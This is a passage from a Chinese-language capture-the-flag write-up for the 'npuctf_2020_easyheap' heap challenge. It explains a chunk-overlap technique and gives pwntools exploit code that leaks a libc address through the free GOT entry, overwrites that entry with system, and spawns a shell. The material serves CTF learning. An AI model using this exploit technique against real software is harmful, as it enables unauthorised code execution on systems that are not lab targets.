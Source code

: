 ```c

```

当我们free掉这个chunk1 他和他的管理chunk都会被free，那么我们再new一个同样大小的chunk回来的时候我们此时

对这个new chunk就可以可控的，我们可以把某个函数的got表写进这个chunk里面所重叠包含的下一个chunk的管理chunk

指针，这样我们去打印的时候就会自动的打印出这个函数的real_addr了



然后就可以写入system去执行啦

```python
dele(1)
gdb.attach(r)

payload=p64(0)*3+p64(0x21)+p64(100)+p64(free)
add(0x38,payload)
gdb.attach(r)

show(1)
r.recvuntil('Content : ')
leak=u64(r.recv(6).ljust(8,'\x00'))
log.success('leak:'+hex(leak))
if local :
	base=leak-0x097a30
	sys=base+0x04f550
else:
	base=leak-0x097950
	sys=base+0x04f440
edit(1,p64(sys))
dele(2)
r.interactive()
```



exp

```python
from pwn import *
local=1
if local :
	r=process('./npuctf_2020_easyheapr')
else:
	r=remote('node4.buuoj.cn','29630')
elf=ELF('npuctf_2020_easyheapr')
free=elf.got['free']
def add(size,content):
	r.sendlineafter('Your choice :',str(1))
	r.sendlineafter('Size of Heap(0x10 or 0x20 only) : ',str(size))
	r.sendafter('Content:',content)

def edit(index,content):
	r.sendlineafter('Your choice :',str(2))
	r.sendafter('Index :',str(index))
	r.recvuntil("Content: ")
	r.send(content)

def show(idx):
	r.sendlineafter('Your choice :',str(3))
	r.sendlineafter('Index :',str(idx))

def dele(idx):
	r.sendlineafter('Your choice :',str(4))
	r.sendlineafter('Index :',str(idx))

```